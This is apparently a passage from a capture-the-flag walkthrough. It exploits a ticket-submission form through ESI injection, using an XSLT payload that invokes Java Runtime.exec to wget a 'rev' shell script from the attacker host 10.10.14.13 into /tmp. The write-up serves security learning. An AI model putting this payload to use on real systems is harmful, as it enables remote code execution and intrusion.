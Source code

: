 After logging in, we see a Ticket Management System:

<figure><img src="../../../.gitbook/assets/image (23) (2).png" alt=""><figcaption></figcaption></figure>

We can raise tickets and it takes a message from us.

<figure><img src="../../../.gitbook/assets/image (20) (1) (8).png" alt=""><figcaption></figcaption></figure>

This is where ESI injection can come in handy. Following the PoC earlier, we can use this:

```markup
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[wget http://10.10.14.13/rev -O /tmp/shell.sh]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```